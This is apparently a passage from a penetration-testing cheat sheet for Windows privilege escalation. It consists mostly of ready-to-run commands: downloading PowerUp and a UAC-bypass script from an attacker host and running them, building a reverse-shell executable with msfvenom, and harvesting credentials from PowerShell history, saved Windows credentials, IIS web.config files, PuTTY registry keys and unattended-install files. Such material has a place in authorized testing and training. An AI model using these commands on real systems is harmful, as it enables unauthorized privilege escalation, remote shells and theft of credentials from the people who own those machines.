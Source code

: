 -> Step 3 - Win Owned  
```
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
`[+] Run a BypassUAC attack to elevate privileges to admin.`

-> Step 4 -Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.139 LPORT=8445 -f exe > ok.exe
```

-> Step 5 - Win Owned
```
wget 192.168.119.139:805/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\Windows\tasks\shell2.exe"
Invoke-EventViewer C:\Windows\tasks\shell2.exe
```
https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1

#### FodhelperBypass
https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials
-> Powershell History  
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

-> EXploiting Saved Windows Credentials
```
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

-> IIS Configuration  
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
-> Retrieve Credentials from Software: PuTTY  
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

-> Unattended Windows Installations
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  